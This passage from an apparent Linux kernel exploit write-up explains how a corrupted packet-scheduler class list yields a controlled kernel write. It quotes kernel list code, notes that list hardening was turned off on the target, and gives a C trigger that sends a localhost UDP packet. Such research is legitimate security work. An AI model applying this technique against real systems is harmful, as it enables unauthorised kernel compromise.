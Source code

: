 ```c

	sch->qstats.backlog += len;
	sch->q.qlen++;
	return err;
}
```

After classifying a packet we arrive at [1]. If our packet is the first to be enqueued on this class/band's qdisc, and the band isnt strict (normal bandwidth sharing band) we call into `list_add_tail` with our (potentially) corrupt `active->next`. So what it do? Briefly:

```c
// new = &cl->alist
// head = &q->active
static inline void list_add_tail(struct list_head *new, struct list_head *head)
{
	__list_add(new, head->prev, head);
}
// ...
// new = &cl->alist
// prev = q->active->prev
// next = &q->active
static inline void __list_add(struct list_head *new,
			      struct list_head *prev,
			      struct list_head *next)
{
	// [1]
	if (!__list_add_valid(new, prev, next))
		return;

	next->prev = new;
	new->next = next;
	new->prev = prev;
	// [2] prev->next = new
	WRITE_ONCE(prev->next, new);
}
```

I did end up having to recompile a kernel with list hardening (CONFIG_LIST_HARDENED + CONFIG_DEBUG_LIST) turned off so we dont get destroyed at [1] - my default ubuntu kernel config had this disabled so I generally mirrored most of the important stuff to my target. Anyway.

So basically we end up doing `active->prev->next = &cl->alist`, which is perfect for us (`active->prev==active` atp). Now, how do we trigger. Very very simple, just send a packet to the interface!

```c
// Just send a packet to localhost
void trigger_write() {
  int s = socket(AF_INET, SOCK_DGRAM, 0);
  struct sockaddr_in saddr = {0};
  saddr.sin_family = AF_INET;
  saddr.sin_port = 1234;
  inet_pton(AF_INET, "127.0.0.1", &saddr.sin_addr);
  sendto(s, "lol", 3, 0, &saddr, sizeof(saddr));
  close(s);
}
```
